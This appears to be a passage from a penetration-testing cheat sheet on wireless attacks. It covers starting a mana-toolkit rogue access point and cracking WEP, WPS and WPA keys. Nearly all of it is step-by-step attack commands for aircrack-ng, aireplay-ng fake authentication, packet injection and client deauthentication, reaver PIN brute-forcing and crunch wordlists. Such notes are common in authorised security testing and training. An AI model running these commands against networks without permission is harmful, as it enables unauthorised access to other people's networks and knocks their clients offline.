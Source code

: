 `gedit /usr/share/mana-toolkit/run-mana/start-nat-simple.sh` adjust accordingly

- Launch AP

`bash /usr/share/mana-toolkit/run-mana/start-nat-simple.sh`

## Cracking WEP WPA WPA2

### WEP with traffic

- Sniff packets while simultaneous trying to crack key

`airodump-ng --channel X --bssid XX:XX:XX:XX:XX:XX --write PATH/FILENAME INTERFACE`

`aircrack-ng PATH/FILENAME`

remove the "`:`" from the found key and use it

### WEP with little traffic

- Establish fake connection

`aireplay-ng --fakeauth 0 -a NETWORKMAC -h OWNMAC INTERFACE`

- Inject packages 

`aireplay-ng --arpreplay -b NETWORKMAC -h OWNMAC INTERFACE`

- Sniff packets while simultaneous trying to crack key

`airodump-ng --channel X --bssid XX:XX:XX:XX:XX:XX --write PATH/FILENAME INTERFACE`

`aircrack-ng PATH/FILENAME`

### WPS

- Find any WPS-compatible APs

`wash -i INTERFACE`

- Bruteforce the pin

`reaver -b NETWORKMAC -c X INTERFACE`

### WPA

- Capture the handshake

`airodump-ng --channel X --bssid XX:XX:XX:XX:XX:XX --write PATH/FILENAME INTERFACE`

`aireplay-ng --deauth 4 -a NETWORKMAC -c TARGETMAC INTERFACE`

- Create wordlist (can also download one)

`crunch MIN MAX CHARACTERSTOBEUSED -t PATTERN -o FILENAME`

e.g. `crunch 6 8 123456abcd!"€$% -o wordlist -t a@@@@b`

- Determine WPA key

`aircrack-ng HANDSHAKEFILE -w WORDLIST`

